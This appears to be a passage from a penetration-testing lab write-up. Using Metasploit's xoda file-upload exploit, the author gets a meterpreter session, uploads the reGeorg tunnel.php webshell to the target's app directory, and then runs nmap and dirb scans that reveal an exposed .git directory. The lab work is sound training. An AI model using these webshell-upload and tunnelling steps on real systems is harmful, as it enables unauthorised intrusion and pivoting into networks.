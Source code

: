 Upload a PHP webshell to app directory of the remote machine.

[sensepost/reGeorg](https://github.com/sensepost/reGeorg)

```
msf5 exploit(unix/webapp/xoda_file_upload) > find /root/tools -name *.php
[*] exec: find /root/tools -name *.php

/root/tools/reGeorg/tunnel.nosocket.php
/root/tools/reGeorg/tunnel.php
msf5 exploit(unix/webapp/xoda_file_upload) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
/app
meterpreter > upload /root/tools/reGeorg/tunnel.php
[*] uploading  : /root/tools/reGeorg/tunnel.php -> tunnel.php
[*] Uploaded -1.00 B of 5.56 KiB (-0.02%): /root/tools/reGeorg/tunnel.php -> tunnel.php
[*] uploaded   : /root/tools/reGeorg/tunnel.php -> tunnel.php
```

## Solution
The exploitaion phase is different from my solution.

```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.87.169.2  netmask 255.255.255.0  broadcast 192.87.169.255
        ether 02:42:c0:57:a9:02  txqueuelen 0  (Ethernet)
```

The target IP address: 192.87.169.3

```
root@attackdefense:~# nmap -sS -sV 192.87.169.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-02-09 09:51 UTC
Nmap scan report for target-1 (192.87.169.3)
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:57:A9:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.63 seconds
```

```
root@attackdefense:~# dirb http://192.87.169.3

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Feb  9 09:52:33 2023
URL_BASE: http://192.87.169.3/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.87.169.3/ ----
+ http://192.87.169.3/.git/HEAD (CODE:200|SIZE:23)                                                                                                                                        
```